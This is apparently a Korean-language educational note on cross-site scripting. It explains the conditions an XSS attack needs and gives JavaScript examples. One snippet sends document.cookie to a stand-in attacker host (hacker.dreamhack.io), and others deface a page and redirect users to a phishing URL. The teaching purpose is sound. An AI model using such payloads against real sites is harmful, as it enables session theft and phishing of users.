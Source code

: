XSS 공격을 성공적으로 수행하기 위해서 필요한 2가지 조건

1. <b>입력 데이터에 대한 충분한 검증 과정이 없어야 한다.</b>
    - 입력한 데이터가 충분한 검증 과정이 이루어지지 않아 악성 스크립트가 삽입될 수 있어야 한다.
2. <b>서버의 응답 데이터가 웹 브라우저 내 페이지에 출력 시 충분한 검증 과정이 없어야 한다.</b>
    - 응답 데이터 출력 시 악성 스크립트가 웹 브라우저의 렌더링 과정에 악성 스크립트는 브라우저가 실행할 수 있는 웹 리소스를 말하며, 대표적으로 HTML, JS 등이 있다.

![image](https://user-images.githubusercontent.com/62539341/82070219-63a0af00-970f-11ea-9858-cf213c90d36e.png)

>XSS 취약점에 대한 정보를 공유할 때 alert 또는 prompt와 같은 메시지 창을 실행하는 이유는 XSS 취약점이 발생하였다는 점을 시각적으로 표현이 가능하기 때문입니다. 주로 메시지 창에는 해당 페이지의 domain을 확인하기 위해 document.domain을 인자로 줍니다.

<h3>XSS with Javascript</h3>
<p>Javascript(자바스크립트)는 사용자의 웹 브라우저에서 화면을 동적으로 보여줄 수 있도록 자동으로 버튼을 누르거나 화면 구성을 바꾸는 등의 작업을 할 때 많이 사용된다. 이러한 UI적인 측면 외에도 사용자와의 상호작용 없이 사용자의 권한으로 정보를 조회하거나 변경하는 등의 요청을 주고 응답받는 것도 가능하다. 사용자의 권한을 가지고 있는 세션 쿠키는 사용자에게 저장되어있고 웹 브라우저는 해당 쿠키에 접근할 수 있기 때문이다.</p>
<p>이외에도 웹 브라우저에서 출력되어지는 페이지의 내용을 조작하거나, 웹 브라우저의 위치를 공격자가 원하는 주소로 변경 가능하다. 이처럼 사용자의 입장에서 발생하는 행위를 동작 시킬 수 있기 때문에 자바스크립트는 XSS 공격에 많이 사용된다.</p>
<p>자바스크립트를 실행하는 대표적인 방법은 script 태그를 이용하는 방식이 있다. 공격자가 입력 데이터로 script 태그를 전송 해 다른 사용자의 응답에 포함되면 공격자의 자바스크립트가 실행된다. script 태그 외에도 태그의 속성 중 특정 상황에서 발생하는 on* 이벤트들을 사용하여 자바스크립트 실행이 가능.</p>

```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

```html
<script>
// 사용자의 페이지 정보에 접근.
document;
// 사용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

```html
<script>
// 사용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
